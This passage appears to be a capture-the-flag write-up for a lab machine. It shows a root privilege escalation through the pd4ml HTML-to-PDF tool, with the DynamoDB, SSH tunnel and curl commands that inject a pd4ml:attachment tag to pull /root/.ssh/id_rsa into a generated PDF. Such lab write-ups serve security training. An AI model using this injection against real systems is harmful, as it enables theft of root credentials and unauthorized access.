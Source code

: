 	- and then execute `pd4cmd` from `pd4ml` library
	- **PD4ML** is a Java library, which makes possible to create PDF documents from Java and JSP applications using HTML as template language
	- here is the **pd4cmd** [documentation](https://pd4ml.com/html-to-pdf-command-line-tool.htm) from pd4ml tool
	- so what is happening here is that the `pd4cmd` convert html file into a pdf file and store in the `files/` direcotry as `result.pdf`

### Exploit Surface

- reading through the pd4ml documentation i found a `PDF Attachments` feature . [PDF Attachments doc](https://pd4ml.com/cookbook/pdf-attachments.htm)
- i can use this feature to import `root.txt` as well as `id_rsa` in `result.txt` because this library run as root
- for this to work i need to set `pd4ml:attachment` function inside the html file
- i can do that by setting `pd4ml:attachment` function as data in the table `alerts` inside item `Ransomware` 

# Root Privesc

**First**, create `alerts` table , [template](awsApiTmpl/createTable-tmpl.js) for webshell
```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions \
        AttributeName=title,AttributeType=S \
    --key-schema \
        AttributeName=title,KeyType=HASH \
--provisioned-throughput \
        ReadCapacityUnits=10,WriteCapacityUnits=5 \
        --endpoint-url=http://s3.bucket.htb
```

**Second**, put `Ransomware` item , [template](awsApiTmpl/putItem-tmpl.js) for webshell
```bash
aws dynamodb put-item \
--table-name alerts  \
--item \
    '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/.ssh/id_rsa</pd4ml:attachment>"}}' \
    --endpoint-url=http://s3.bucket.htb
```

*specify `pd4ml:attachment` function as item `Ransomware` data so when pd4cmd convert html file into pdf it also attech that file i specified*

**Third**, create tunnel on port 8000 with ssh
```bash
ssh -L 8000:127.0.0.1:8000 roy@bucket.htb
```

**Fourth**, send a post request to `127.0.0.1:8000`

`curl -X POST -d "action=get_alerts" http://127.0.0.1:8000/ -v`
